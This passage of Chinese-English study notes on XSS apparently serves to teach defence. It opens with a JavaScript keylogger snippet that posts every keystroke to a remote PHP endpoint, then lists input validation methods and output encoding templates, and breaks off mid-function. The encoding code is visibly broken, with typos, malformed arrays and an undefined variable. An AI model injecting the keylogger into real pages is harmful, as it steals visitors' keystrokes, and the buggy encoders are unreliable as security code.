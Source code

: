 

```js title="keylogger.js"
ducument.onkeydown = (e)=> {
  xhr = new XMLHttpRequest()
  // &fnof;(method,url,?async, ?username, ?password)
  xhr.open('POST', 'http://192.168.130/keylogger.php',true)
  xhr.setRequestHeader("Content-Type","application/x-www-urlencoded")
  xhr.send("key=" + String.fromCharCode(e.key))
}
```

### XSS attack 防御

![](assets/currency-encoding.png)

#### Input Validation输入验证
- 白名单
- 黑名单
- GeoFilter
- 格式和长度

#### Output Encoding输出编码

- [x] (symbol encoding)

html entity template: `&#<decimal>;` `&#402;` or `&fnof;` (unicode-dec)

Unicode template:`U+<Hex>`, `U+1092` (unicode-hex)

css content template `\<Hex>` `\1092` (unicode-hex)

url Encoded: `%c6%92` (utf-8)

```js title="output_encoding.js"
  const currency = ['&pound;','&eurp','&yen']
  const deg = ['&deg;'&#8457;'], // Fahrenheit
  const math = ['fnof;','&infin;','&percnt;']
const urlEncode = (str) => {
  // &fonf;(replacer)
  str.replace(/['#;']/g, (match) => {
    return '%' + c.charCodeAt(0).toString(16).toUppperCase()
  }).
}

const htmlEncode = (htmlString) => {
  const escapeMap = new Map([
      ['<', '&lt;'],
      ['>', '&gt;'],
      ['"', '&quot;'],
      ["'", '&#39;'],
```